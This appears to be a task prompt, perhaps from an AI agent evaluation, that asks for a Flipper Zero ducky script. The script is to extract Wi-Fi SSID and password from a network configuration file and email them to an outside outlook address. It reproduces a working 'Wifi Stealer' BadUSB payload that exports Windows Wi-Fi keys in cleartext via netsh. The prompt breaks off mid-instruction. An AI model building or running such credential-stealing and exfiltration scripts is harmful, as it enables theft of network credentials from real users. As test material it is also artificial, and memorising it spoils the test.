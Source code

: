 Before proceeding with this task, you'll need to install Powershell on your virtual machine. Install instructions are given below for arch linux [reference guide](https://ephos.github.io/posts/2018-9-17-Pwsh-ArchLinux)

```shell
# POWERSHELL INSTALL SCRIPT FOR ARCH LINUX
# Clone the AUR package down with git, use the "Git Clone URL"
git clone https://aur.archlinux.org/powershell-bin.git

# Navigate into the directory from the Git clone
cd powershell-bin

# AUR Packages are community created, MAKE SURE YOU REVIEW THE FILES BEFORE INSTALL!
cat PKGBUILD

# Run makepkg to build the AUR package, '-s' will sync dependencies, '-i' will install the package after build.
makepkg -si
```


You are given a sample network file called [networkfile.nmconnection](misc/networkfile.nmconnection) which contains Wifi credentials for a network called 'Cross'.
Now that you're familiar with ducky scripts, your end goal is a script which automatically extracts whole password and SSID for you from this file. Afterwards, it should send this password and SSID
over email to win10_9121@outlook.com!

To aid you in this task, flipper zero comes with a sample Wi-Fi credentials stealing script written in ducky language in following directory: _SD Card/badusb/Wifi-Stealer_ORG.txt_
The filename is: Wifi-Stealer_ORG.txt

However, this script is written for windows and does not have automated email sending component using powershell. 

Contents of the file are shared below for your reference:

```shell
REM Title: Wifi Stealer
REM Author: 7h30th3r0n3
REM Target: Tested on Windows 7/8/10/11 
REM Version: 1.0
REM Category: Grabber
REM Extracts the SSID and wifi shared key and puts them in a txt file named 0.txt on the desktop
GUI r
DELAY 500
STRING powershell 
ENTER
DELAY 500
STRING cd C:\Users\$env:UserName\Desktop; netsh wlan export profile key=clear; Select-String -Path WiFi-* -Pattern 'keyMaterial' | % { $_ -replace '</?keyMaterial>', ''} | % {$_ -replace "C:\\Users\\$env:UserName\\Desktop\\", ''} | % {$_ -replace '.xml:22:', ''} > 0.txt; del WiFi-*;exit
ENTER
```
**Your job is to first download given configuration file ([download link](misc/networkfile.nmconnection)) on your virtual linux. Use ducky script to come up with an attack that:**
